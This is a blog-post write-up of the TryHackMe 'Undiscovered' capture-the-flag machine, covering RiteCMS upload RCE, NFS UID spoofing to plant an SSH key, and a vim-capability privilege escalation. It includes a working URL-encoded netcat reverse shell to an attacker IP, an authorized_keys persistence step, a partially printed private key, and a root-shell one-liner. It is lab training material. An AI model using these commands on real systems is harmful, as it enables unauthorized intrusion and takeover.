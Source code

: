 ```yaml
---
layout: post
title:  "THM: Undiscovered"
date:   2020-11-02 21:00:00 +1100
category: hacking
---
```


## Introduction
*Discovery consists not in seeking new landscapes, but in having new eyes.*

This is [Undiscovered](https://tryhackme.com/room/undiscoveredup) from TryHackMe. Interestingly, this actually was a Vulnhub machine for a while then got moved to THM. I found the foothold and figured out the privesc, but didn't know how to do the lateral movement (from *www-data* to *william*), so that's mostly what I'm going to write about here.

## Subs
This box has a heap of different sub-domains that I enumerated with WFUZZ. It's running RiteCMS 2.2.1 which has an authenticated RCE in the form of an upload vulnerability. The default credentials are *admin:admin* but the password had been changed to *liverpool*; I found that with Burp Turbo Intruder. The initial stage was wading through the subdomains trying to find the right one (*deliver*). The others were all lacking the */cms* directory, which contains the login page.

I uploaded a file called *execute.php* using the File Manager in the Administration tools then sent it a URL encoded reverse shell:

``
rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.9.10.123+1234+>/tmp/f
``

This was sent to http://deliver.undiscovered.thm/files/execute.php?cmd=

## NFS
So once I was on the box I could see I had two users; *leonard* and *william*. I figured out that the privesc was going to be using **vim**, since it has the setuid capability set. The only thing was that the binary belonged to the Developer group, of which *leonard* was the only member. So we had to become leonard. As it turns out, that is via *william*. Here's how.

The box has an NFS share; I'd mounted it previously but couldn't really do anything with it - not even read the content. As it happens, you need to have a local user with the same *username* and *uid* as the remote user.

We can do that on our local box:

``
root@kali:/opt/tryhackme/undiscovered# useradd -u 3003 william
``

Then mount the share:

``
root@kali:/opt/tryhackme/undiscovered# mount -t nfs undiscovered.thm:/ ./mount
``

And then

``
root@kali:/opt/tryhackme/undiscovered# su - william
``

And once we've done that we can read *and write* to the share. Any changes to our local mounted share are reflected on the box.

The easiest thing to do is to add our SSH public key to the *authorized_keys* for *william*. That doesn't exist; but we can create it.

{% highlight shell %}
root@kali:/opt/tryhackme/undiscovered# mount -t nfs undiscovered.thm:/ mount
root@kali:/opt/tryhackme/undiscovered# su - william
$ cd /opt/tryhackme/undiscovered/mount/home/william
$ mkdir .ssh
$ cd .ssh
$ echo "ssh-rsa AAAAB3NzaC1yc2 AND THE REST OF MY SSH PUBLIC KEY 4IXNhvDE0= root@kali" >> authorized_keys
{% endhighlight %}

Once this is done we can just do:

{% highlight shell %}
root@kali:/opt/tryhackme/undiscovered# ssh william@undiscovered.thm
Warning: Permanently added the ECDSA host key for IP address '10.10.254.175' to the list of known hosts.
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-189-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


0 packages can be updated.
0 updates are security updates.


Last login: Thu Sep 10 00:35:09 2020 from 192.168.0.147
william@undiscovered:~$ 
{% endhighlight %}

## Leonard
William has a file in his home directory that reads files from *leonard*s home directory; so we can read *leonard*s SSH private key. It's not encrypted, so we can just read it, copy it and SSH in as *leonard*. Easy.

{% highlight shell %}
william@undiscovered:~$ ./script .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAwErxDUHfYLbJ6rU+r4oXKdIYzPacNjjZlKwQqK1I4JE93rJQ
HEhQlurt1Zd22HX2zBDqkKfvxSxLthhhArNLkm0k+VRdcdnXwCiQqUmAmzpse9df
etc etc
{% endhighlight %}

## Privesc
As I figured out while I was still www-data and before checking a write-up on how to become *william*, the privesc is via **vim**.

[GTFOBins](https://gtfobins.github.io/gtfobins/vim/#capabilities) offers a method and although the (at the time of writing) only writeup on the THM page says it doesn't work, it actually does provided you specify python3:

``
leonard@undiscovered:~$ vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
``

So overall I had most of this sorted apart from the trick about having a local user with the same username and UID as the remote user. I hadn't seen that before and it's something I won't forget. TIL.

The writeups I looked at were from [here](https://linkedroot.blogspot.com/2020/10/undiscovered-tryhackme-write-up.html) and [here](https://0xatom.github.io/vulnhub/2020/09/30/undiscovered/).
